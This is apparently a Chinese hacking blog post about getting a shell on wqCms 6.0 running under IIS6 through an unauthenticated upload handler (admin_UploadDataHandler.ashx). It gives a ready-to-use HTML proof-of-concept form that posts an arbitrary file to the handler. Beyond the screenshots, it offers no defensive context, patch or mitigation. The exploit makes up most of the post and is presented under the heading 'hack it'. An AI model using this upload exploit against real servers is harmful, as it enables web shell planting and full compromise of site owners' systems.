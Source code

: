 ```yaml
---
title: wqCms6.0在IIS6的Getshell
date: 2017-02-22 21:20:55
tags:
- Hacker
categories:
- Hacker
---
```

2017-02-15发布
# 一、漏洞利用点
漏洞文件:admin_UploadDataHandler.ashx 自定义构造上传点
<!--more-->
# 二、hack it
![77e968abd5e5cb3e2c4cdfbe620568fa.jpg](https://ooo.0o0.ooo/2017/02/22/58ad9095a4fe5.jpg)
![7281e4d1334393ddcc1c4926ad0065a8.jpg](https://ooo.0o0.ooo/2017/02/22/58ad8ebcee2cf.jpg)
# 三、POC
```html
<html>
    <body>
        <form action="http://127.0.0.1/admin_UploadDataHandler.ashx" method="POST"enctype="multipart/form-data">
            <input  type="file" name="uploadify" />
            <input  type="text" name="saveFile" value="admin" />
            <input type="submit" name="Upload" value="Submit Query" />
        </form>
    </body>
</html>
```
转自群友论坛文章[wobushou](http://loner.fm/article.php?id=24236)